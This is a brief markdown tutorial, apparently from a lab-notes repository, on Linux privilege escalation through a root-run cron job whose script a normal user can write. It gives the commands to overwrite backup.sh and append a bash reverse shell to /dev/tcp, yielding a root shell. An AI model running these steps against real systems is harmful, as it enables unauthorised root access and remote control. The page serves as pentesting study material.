

# Linux Privilege Escalation with Cron Jobs
[< Back to Menu](README.md)
## Cron Jobs executed by root
- The `bash` script is owned by users
- The `Jobs` of the file is executed with root permission on `Cron Jobs`
- Any privileged command can be executed such as `root reverse shell`
- Job with `* * * * *` schedule will be executed again if the scipt file `is modified.` and uset permission to be `executed`
- To see cron jobs - `cat /etc/crontab

<center></center>

- Assume `/home/karen/backup.sh` is owned by user with permission
```bash
-rwxr-xr-x 1 karen karen 66 May 13 08:46 /home/karen/backup.sh
```
- `echo #!/bin/bash > /home/karen/backup.sh` - Replace everything with bash indicator
- `echo "bash -i >& /dev/tcp/<target ip>/<target port> 0>&1 >> /home/karen/backup.sh` - Append reverse shell
- Run `chmod +x /home/karen/backup.sh` to ensure that it will be executed
- Then, `root reverse shell` will be poped up